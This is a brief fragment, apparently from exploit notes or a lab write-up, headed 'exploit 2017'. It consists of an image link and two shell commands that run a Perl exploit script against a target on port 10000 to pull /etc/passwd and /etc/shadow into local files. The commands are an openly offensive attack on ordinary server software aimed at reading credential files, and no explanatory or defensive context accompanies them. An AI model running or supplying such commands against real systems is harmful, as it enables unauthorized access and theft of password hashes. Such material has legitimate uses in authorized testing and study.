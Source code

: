 #### exploit 2017

```
./2017.pl $TARGET 10000 /etc/passwd 0 > passwd
```

```
./2017.pl $TARGET 10000 /etc/shadow 0 > shadow
```